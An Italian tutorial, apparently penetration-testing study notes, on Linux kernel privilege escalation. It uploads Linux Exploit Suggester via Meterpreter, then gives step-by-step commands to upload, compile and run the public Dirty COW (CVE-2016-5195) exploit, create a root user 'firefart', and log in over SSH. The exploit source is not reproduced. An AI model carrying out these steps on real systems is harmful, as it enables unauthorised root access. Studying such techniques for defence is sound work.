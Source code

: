 # Linux Kernel Exploiting

Gli **exploit del kernel su Linux** sono strumenti o tecniche utilizzati per sfruttare vulnerabilità nei componenti del **kernel**, ovvero il cuore del sistema operativo. Questi exploit permettono di ottenere **privilegi elevati** (come root) partendo da un contesto con permessi limitati.

Sono fondamentali nei casi in cui si ha accesso a un sistema ma non si dispone dei privilegi necessari per eseguire determinate operazioni.

---

## 1 – Introduzione alla privilege escalation via kernel

Ogni exploit di questo tipo è **specifico per una determinata versione del kernel**, quindi è essenziale identificare esattamente:
- la versione del kernel in uso,
- l’architettura del sistema (32/64 bit),
- la distribuzione (Ubuntu, CentOS, ecc.).

Il processo di privilege escalation su Linux segue generalmente questi passi:
- Identificazione delle vulnerabilità,
- Ricerca degli exploit compatibili,
- Upload e compilazione del codice sulla macchina target.

> ⚠️ Lavorare con exploit del kernel è pericoloso: possono mandare in crash il sistema o corrompere dati.

---

## 2 – Linux Exploit Suggester

**Linux-Exploit-Suggester** è uno script che analizza la configurazione e il kernel della macchina target per suggerire exploit noti compatibili. Non si occupa di sicurezza mal configurata, ma **di vulnerabilità locali** del kernel.

É scaricabile su <a href="https://github.com/The-Z-Labs/linux-exploit-suggester">GitHub</a>

Dopo aver ottenuto una sessione Meterpeter sul target, possiamo caricare lo script con:

```bash
upload ~/Linux-Enum/les.sh
```

Poi, apriamo una shell e successivamente una bash:
```bash
shell
/bin/bash -i       # Avvia una shell interattiva bash
```
adesso possiamo dare i permessi di esecuzione allo script `lsa.sh` per poi eseguirlo: 
```
chmod +x les.sh     # Rende eseguibile lo script
./les.sh            # Esegue lo script
```

É importante prestare attenzione alle prime righe che mostreranno mostreranno:
- **Kernel version**
- **Architecture**
- **Distribution**
- **Version**

Usiamo queste info per cercare exploit su <a href="https://www.exploit-db.com/">Exploit Database</a>

---

## 3 – Exploit CVE-2016-5195 (Dirty COW)

Una vulnerabilità **critica** del kernel Linux chiamata **Dirty COW** (Copy-On-Write), indicata come **CVE-2016-5195**, consente a un utente non privilegiato di **scrivere in aree di memoria riservate** e ottenere accesso root. 

Dirty COW è dovuta a un errore nella gestione della memoria COW (Copy-On-Write): un utente può modificare file in sola lettura mappati in memoria.

### Preparazione dell’exploit

1. Scarichiamo il codice C dell’exploit da <a href="https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c">GitHub</a>

2. Carichiamolo sul target con Meterpreter:
```bash
upload pokemon.c
```

3. Compiliamo il file sul target:
```bash
gcc -pthread pokemon.c -o dirty -lcrypt
```

- `gcc` → il compilatore C
- `-pthread` → abilita i thread POSIX
- `-o dirty` → output binario chiamato "dirty"
- `-lcrypt` → collega la libreria per criptare la password del nuovo utente

### Esecuzione dell’exploit

Il binario richiede una password come argomento:
```bash
./dirty <password>
```

Il payload creerà un nuovo utente chiamato **firefart** con privilegi di root e password specificata.

Per verificarlo:
```bash
cat /etc/passwd
```

---

## 4 – Accesso con i nuovi privilegi

Possiamo connetterci via SSH con:
```bash
ssh firefart@<IP>
```

Poi inseriamo la password che abbiamo scelto durante l’exploit. 
Se la connessione è corretta, avremo accesso **root** sulla macchina target.

---
